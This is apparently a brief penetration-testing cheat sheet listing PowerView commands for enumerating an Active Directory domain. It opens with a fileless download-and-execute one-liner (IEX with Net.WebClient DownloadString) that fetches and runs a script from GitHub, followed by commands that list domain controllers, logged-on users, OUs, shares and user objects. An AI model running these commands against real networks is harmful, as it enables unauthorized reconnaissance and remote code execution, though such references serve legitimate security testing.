 1. Use IEX to load the module - IEX(New-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1")
2. Enumerate the domain controllers - Get-NetDomainControllers
3. Enumerate the current logd in users - Get-NetLoggedOn
4. Enumerate the OUs in the domain - Get-NetOU
5. Display all shares on a server - Get-NetShare
6. Display domain's name and forest - Get-NetDomain
7. Display all user Objects - Get-NetUser 
